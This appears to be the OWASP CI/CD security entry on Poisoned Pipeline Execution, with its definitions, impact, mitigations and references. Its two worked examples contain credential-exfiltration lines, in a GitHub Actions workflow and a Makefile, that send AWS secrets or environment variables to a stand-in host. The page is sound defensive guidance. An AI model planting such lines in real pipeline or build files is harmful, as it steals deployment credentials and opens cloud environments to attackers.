


# CICD-SEC-4: Poisoned Pipeline Execution (PPE)
## Definition


Poisoned Pipeline Execution (PPE) risks refer to the ability of an attacker with access to source control systems - and without access to the build environment, to manipulate the build process by injecting malicious code/commands into the build pipeline configuration, essentially ‘poisoning’ the pipeline and running malicious code as part of the build process.


## Description

The PPE vector abuses permissions against an SCM repository, in a way that causes a CI pipeline to execute malicious commands.

Users that have permissions to manipulate the CI configuration files, or other files which the CI pipeline job relies on, can modify them to contain malicious commands, ultimately “poisoning” the CI pipeline executing these commands.

Pipelines executing unreviewed code, for example those which are triggered directly off of pull requests or commits to arbitrary repository branches, are more susceptible to PPE. The reason is that these scenarios, by design, contain code which has not undergone any reviews or approvals. 

Once able to execute malicious code within the CI pipeline, the attacker can conduct a wide array of malicious operations, all within the context of the pipeline’s identity.

There are three types of PPE:

**Direct PPE (D-PPE):** In a D-PPE scenario, the attacker modifies the CI config file in a repository they have access to, either by pushing the change directly to an unprotected remote branch on the repo, or by submitting a PR with the change from a branch or a fork. Since the CI pipeline execution is triggered off of the “push” or ”PR” events, and the pipeline execution is defined by the commands in the modified CI configuration file, the attacker’s malicious commands ultimately run in the build node once the build pipeline is triggered.

**Indirect PPE (I-PPE):** In certain cases, the possibility of D-PPE is not available to an adversary with access to an SCM repository:


* If the pipeline is configured to pull the CI configuration file from a separate, protected branch in the same repository.
* If the CI configuration file is stored in a separate repository from the source code, without the option for a user to directly edit it.
* If the CI build is defined in the CI system itself - instead of in a file stored in the source code.

In such a scenario, the attacker can still poison the pipeline by injecting malicious code into files referenced by the pipeline configuration file, for example:


* _make_: Executes commands defined in the “Makefile” file.
* Scripts referenced from within the pipeline configuration file, which are stored in the same repository as the source code itself (e.g. _python myscript.py_ - where myscript.py would be manipulated by the attacker).
* Code tests: Testing frameworks running on application code within the build process rely on dedicated files, stored in the same repository as the source code itself. Attackers that are able to manipulate the code responsible for testing are then able to run malicious commands inside the build.
* Automatic tools: Linters and security scanners used in the CI, are also commonly reliant on a configuration file residing in the repository. Many times these configurations involve loading and running external code from a location defined inside the configuration file. 

So rather than poisoning the pipeline by inserting malicious commands directly into the pipeline definition file, In I-PPE, an attacker injects malicious code into files referenced by the configuration file. The malicious code is ultimately executed on the pipeline node once the pipeline is triggered and runs the commands declared in the files in question.

**Public-PPE (3PE):** Execution of a PPE attack requires access to the repository hosting the pipeline configuration file, or to files it references. In most cases, the permission to do so would be given to organization members - mainly engineers. Therefore, attackers would typically have to be in possession of an engineer's permission to the repository to execute a direct or indirect PPE attack.

However, in some cases poisoning CI pipelines is available to anonymous attackers on the internet: Public repositories (for example open source projects) oftentimes allow any user to contribute - usually by creating pull requests, suggesting changes to the code. These projects are commonly automatically tested and built using a CI solution, in a similar fashion to private projects.

If the CI pipeline of a public repository runs unreviewed code suggested by anonymous users, it is susceptible to a Public PPE attack, or in short - 3PE. This also exposes internal assets, such as secrets of private projects, in cases where the pipeline of the vulnerable public repository runs on the same CI instance as private ones.


**Examples**

<span style="text-decoration:underline;">Example 1: Credential theft via Direct-PPE (GitHub Actions)</span>

In the following example, a GitHub repository is connected with a GitHub Actions workflow that fetches the code, builds it, runs tests, and eventually deploys artifacts to AWS.

When new code is pushed to a remote branch in the repository, the code - including the pipeline configuration file - is fetched by the runner (the workflow node).


```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - run: |
         echo "building..."
         echo "testing..."
         echo "deploying..."
```




In this scenario, a D-PPE attack would be carried out as follows:


1. An attacker creates a new remote branch in the repository, in which they update the pipeline configuration file with malicious commands intended to access AWS credentials scoped to the GitHub organization and then to send them to a remote server.

```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - env:
         ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
         SECRET_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

       run: |
         curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com

```


2. Once the update is pushed, this triggers a pipeline which fetches the code from the repository, including the malicious pipeline configuration file.
3. The pipeline runs based on the configuration file “poisoned” by the attacker. As per the attacker’s malicious commands, AWS credentials stored as repository secrets are loaded into memory.
4. The pipeline proceeds to execute the attacker’s commands which send the AWS credentials to a server controlled by the attacker.
5. The attacker is then able to use the stolen credentials to access the AWS production environment.

<span style="text-decoration:underline;">Example 2: Credential theft via Indirect-PPE (Jenkins)</span>

This time, it is a Jenkins pipeline that fetches code from the repository, builds it, runs tests, and eventually deploys to AWS. In this scenario the pipeline configuration is such that the file describing the pipeline - the Jenkinsfile - is always fetched from the main branch in the repository, which is protected. Therefore, the attacker cannot manipulate the build definition, meaning that fetching secrets stored on the Jenkins credential store, or running the job on other nodes are not a possibility.

However - this does not mean that the pipeline is risk free;

In the _build_ stage of the pipeline, AWS credentials are loaded as environment variables, making them available only to the commands running in this stage. In the example below, the _make_ command, which is based on the contents of Makefile (also stored in the repository), runs as part of this stage.

The Jenkinsfile:


```GROOVY
pipeline {
   agent any
   stages {
       stage('build') {
           steps {
               withAWS(credentials: 'AWS_key', region: 'us-east-1') {
                       sh 'make build'
                       sh 'make clean'
               }
           }
       }
       stage('test') {
           steps {
               sh 'go test -v ./...'
...
```


The Makefile:


```MAKEFILE
build:
   echo "building…"

clean:
   echo "cleaning…"
```



In this scenario, an I-PPE attack would be carried out as follows:


1. An attacker creates a pull request in the repository, appending malicious commands to the _Makefile_ file.


```MAKEFILE
build:
   curl -d "$$(env)" hack.com

clean:
   echo "cleaning…"

```


2. Since the pipeline is configured to be triggered upon any PR against the repo, the Jenkins pipeline is triggered, fetching the code from the repository, including the malicious _Makefile_.
3. The pipeline runs based on the configuration file stored in the main branch. It gets to the _build_ stage, and loads the AWS credentials into environment variables - as defined in the original Jenkinsfile. Then, it runs the _make build_ command, which executes the malicious command that was added into _Makefile_.
4. The malicious _build_ function defined in the Makefile is executed, sending the AWS credentials to a server controlled by the attacker.
5. The attacker is then able to use the stolen credentials to access the AWS production environment.


## Impact

In a successful PPE attack, attackers execute malicious unreviewed code in the CI. This provides the attacker with the same abilities and level of access as the build job, including:


* Access to any secret available to the CI job, such as secrets injected as environment variables or additional secrets stored in the CI. Being responsible for building code and deploying artifacts, CI/CD systems typically contain dozens of high-value credentials and tokens - such as to a cloud provider, to artifact registries, and to the SCM itself.
* Access to external assets the job node has permissions to, such as files stored in the node’s file system, or credentials to a cloud environment accessible through the underlying host.
* Ability to ship code and artifacts further down the pipeline, in the guise of legitimate code built by the build process. 
* Ability to access additional hosts and assets in the network/environment of the job node.

## Recommendations

Preventing and mitigating the PPE attack vector involves multiple measures spanning across both SCM and CI systems:


* Ensure that pipelines running unreviewed code are executed on isolated nodes, not exposed to secrets and sensitive environments.
* Evaluate the need for triggering pipelines on public repositories from external contributors. Where possible, refrain from running pipelines originating from forks, and consider adding controls such as requiring manual approval for pipeline execution. 
* For sensitive pipelines, for example those that are exposed to secrets, ensure that each branch that is configured to trigger a pipeline in the CI system has a correlating branch protection rule in the SCM.
* To prevent the manipulation of the CI configuration file to run malicious code in the pipeline, each CI configuration file must be reviewed before the pipeline runs. Alternatively, the CI configuration file can be managed in a remote branch, separate from the branch containing the code being built in the pipeline. The remote branch should be configured as protected.
* Remove permissions granted on the SCM repository from users that do not need them.
* Each pipeline should only have access to the credentials it needs to fulfill its purpose. The credentials should have the minimum required privileges.


## References


1. Exploiting Continuous Integration and Automated Build systems, DEF CON 25, by Tyler Welton. The talk covered exploitation techniques of the Direct-PPE and 3PE attack vectors, targeting pipelines running unreviewed code.

    [https://www.youtube.com/watch?v=mpUDqo7tIk8](https://www.youtube.com/watch?v=mpUDqo7tIk8)

2. PPE - Poisoned Pipeline Execution. Running malicious code in your CI, without access to your CI. By [Daniel Krivelevich](https://twitter.com/Dkrivelev) and [Omer Gil](https://twitter.com/omer_gil).

    [https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/)

3. Build Pipeline Security, by [xssfox](https://twitter.com/xssfox). An Indirect-PPE vulnerability was exposed in the CodeBuild pipeline of a website belonging to AWS. This allowed anonymous attackers to modify a script executed by the build configuration file with the creation of a pull request, resulting in the compromise of deployment credentials.

    [https://sprocketfox.io/xssfox/2021/02/18/pipeline/](https://sprocketfox.io/xssfox/2021/02/18/pipeline/)

4. GitHub Actions abused to mine cryptocurrency by pull requests that contained malicious code.

    [https://dev.to/thibaultduponchelle/the-github-action-mining-attack-through-pull-request-2lmc](https://dev.to/thibaultduponchelle/the-github-action-mining-attack-through-pull-request-2lmc)

5. A terraform provider for execution of OS commands during run of _terraform plan_ in the pipeline, by [Hiroki Suezawa](https://twitter.com/rung).

    [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

6. Abusing the _terraform plan_ command for execution of OS commands in the CI/CD, by [Alex Kaskasoli](https://twitter.com/alxk7i).

    [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

7. A vulnerability found in Teleport’s CI implementation, that allowed attackers from the internet to execute a Direct-3PE attack by creating a pull request in a public GitHub repository linked with a Drone CI pipeline, and modifying the CI configuration file to execute a malicious pipeline.

    [https://goteleport.com/blog/hack-via-pull-request/](https://goteleport.com/blog/hack-via-pull-request/)
